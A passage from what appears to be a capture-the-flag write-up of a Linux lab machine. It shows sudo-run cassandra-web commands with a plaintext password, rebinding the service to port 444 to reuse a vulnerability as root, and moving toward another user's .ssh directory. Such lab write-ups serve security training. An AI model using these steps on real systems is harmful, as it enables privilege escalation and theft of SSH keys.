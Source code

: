 We have confirmed access and see that we are permitted to run `/usr/local/bin/cassandra-web`.

This is good right because we could leverage the same vulnerability as the **root** user. Let's try to run the same command with username and password with Sudo.

```
cassie@clue:~$ sudo cassandra-web -u cassie -p SecondBiteTheApple330
...
I, [2022-08-02T15:32:01.970556 #3200]  INFO -- : Creating session
I, [2022-08-02T15:32:02.059476 #3200]  INFO -- : Session created
2022-08-02 15:32:02 +0700 Thin web server (v1.8.1 codename Infinite Smoothie)
2022-08-02 15:32:02 +0700 Maximum connections set to 1024
2022-08-02 15:32:02 +0700 Listening on 0.0.0.0:3000, CTRL+C to stop
RuntimeError: no acceptor (port is in use or requires root privileges)

Usage: cassandra-web [options]
    -B, --bind BIND                ip:port or path for cassandra web to bind on (default: 0.0.0.0:3000)
    -H, --hosts HOSTS              coma-separated list of cassandra hosts (default: 127.0.0.1)
    -P, --port PORT                integer port that cassandra is running on (default: 9042)
    -L, --log-level LEVEL          log level (default: info)
    -u, --username USER            username to use when connecting to cassandra
    -p, --password PASS            password to use when connecting to cassandra
    ...
```

Unfortunately we receive a `RuntimeError` that port `3000` is in use.

Luckily there is a `-B` option to bind `ip:port` to listen to.

```
cassie@clue:~$ sudo cassandra-web -u cassie -p SecondBiteTheApple330 -B 444
...
I, [2022-08-02T15:49:54.153773 #3366]  INFO -- : Creating session
I, [2022-08-02T15:49:54.243259 #3366]  INFO -- : Session created
2022-08-02 15:49:54 +0700 Thin web server (v1.8.1 codename Infinite Smoothie)
2022-08-02 15:49:54 +0700 Maximum connections set to 1024
2022-08-02 15:49:54 +0700 Listening on 0.0.0.0:444, CTRL+C to stop
```

We notice that the user **anthony** has a `.ssh` directory which appears to be of interest.

```
cassie@clue:~$ ls -l /home/
total 8
drwxr-xr-x 3 anthony anthony 4096 Aug  1 19:53 anthony
drwxr-xr-x 3 cassie  cassie  4096 Aug  2 15:19 cassie
cassie@clue:~$ ls -la /home/anthony/
total 28
drwxr-xr-x 3 anthony anthony 4096 Aug  1 19:53 .
drwxr-xr-x 4 root    root    4096 Aug  1 19:53 ..
-rw------- 1 anthony anthony  120 Aug  1 19:53 .bash_history
-rw-r--r-- 1 anthony anthony  220 Apr 18  2019 .bash_logout
-rw-r--r-- 1 anthony anthony 3526 Apr 18  2019 .bashrc
-rw-r--r-- 1 anthony anthony  807 Apr 18  2019 .profile
drwx------ 2 anthony anthony 4096 Aug  1 19:53 .ssh
```
